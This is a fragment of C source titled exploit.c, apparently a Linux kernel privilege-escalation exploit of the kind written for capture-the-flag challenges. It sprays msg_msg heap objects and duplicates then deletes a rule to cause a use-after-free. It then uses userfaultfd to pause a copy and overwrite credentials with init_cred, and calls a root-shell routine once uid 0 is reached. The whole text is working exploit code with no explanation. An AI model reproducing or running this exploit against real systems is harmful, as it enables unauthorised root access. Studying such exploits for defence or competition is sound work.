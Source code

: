 ```exploit.c
  for (int ix = 0; ix != CLEAN_N; ++ix) {
    int qid = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
    struct msg4k cleaning_msg = { .mtype = 1 };
    memset(cleaning_msg.mtext, 'E', PAGE - 0x30);
    KMALLOC(qid, cleaning_msg, 1);
  }

  // allocate sample rules
  puts("[.] allocating sample rules...");
  #define SECOND_N 10
  memset(buf_name, 'F', 0x10);
  memset(buf_iface, 'G', 0x10);
  for (int ix = 0; ix != CLEAN_N; ++ix) {
    add_rule(buf_iface, buf_name, FIRST_N + ix, INBOUND, buf_1p);
  }

  // dup rule 1
  puts("[.] dup rule S1...");
  dup_rule(INBOUND, FIRST_N + 1);

  // delete INBOUND rule 1
  puts("[.] deleting inbound S1...");
  delete_rule(INBOUND, FIRST_N + 1);

  // prepare uffd
  puts("[.] preparing uffd");
  struct skb_uffder *uffder = new_skb_uffder(ADDR_FAULT, 1, buf_cpysrc, handle_fault, "msg_msg_watcher", UFFDIO_REGISTER_MODE_MISSING);
  assert(uffder != NULL);
  memset(buf_cpysrc, 'G', DATALEN_MSG);
  ((ulong*)(buf_cpysrc + DATALEN_MSG))[0] = init_cred;
  ((ulong*)(buf_cpysrc + DATALEN_MSG))[1] = init_cred;
  puts("[.] waiting uffder starts...");
  usleep(500);
  skb_uffd_start(uffder, NULL);

  // allocate temp `msg_msg` on UAFed slab
  puts("[.] allocating temp msg_msg on UAFed slab.");
  if ((tmp = msgrcv(qid, ADDR_FAULT, PAGE, 0, MSG_COPY | IPC_NOWAIT | MSG_NOERROR)) <= 0) { // SEARCH_ANY
    errExit("msgrcv");
  }

  // end of life
  int uid = getuid();
  if (uid != 0) {
    printf("[-] Failed to get root...");
    exit(1);
  } else {
    puts("\n\n\n[+] HERE IS YOUR NIRUGIRI");
    NIRUGIRI();
  }
  puts("[ ] END of life...");
}
```
